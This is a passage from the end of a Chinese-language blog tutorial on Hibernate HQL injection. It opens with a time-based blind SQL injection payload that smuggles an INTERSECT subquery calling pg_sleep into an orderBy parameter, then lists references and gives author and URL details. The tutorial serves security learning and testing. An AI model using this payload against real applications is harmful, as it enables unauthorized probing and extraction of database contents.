orderBy=name INTERSECT SELECT t FROM Test t WHERE (SELECT cast(pg_sleep(10) AS text))=&#39;2&#39; ORDER BY t.id
```


## 参考资料

- [Hibernate官方文档](https://hibernate.org/orm/documentation/6.0/)
- [HQL文档](https://docs.jboss.org/hibernate/orm/6.3/querylanguage/html_single/Hibernate_Query_Language.html)
- [Hibernate – Query Language](https://www.geeksforgeeks.org/hibernate-query-language/)
- [HQL注入深入利用](https://mp.weixin.qq.com/s/b0RDuQSjibAKYl8HhhcBbg)
- [HQL for pentesters](https://blog.h3xstream.com/2014/02/hql-for-pentesters.html)
- https://ultramangaia.github.io/blog/2017/pwn2win-ctf-2017.html


---

> 作者: Xavier  
> URL: https://www.bthoughts.top/posts/hibernate_hql_injection/  

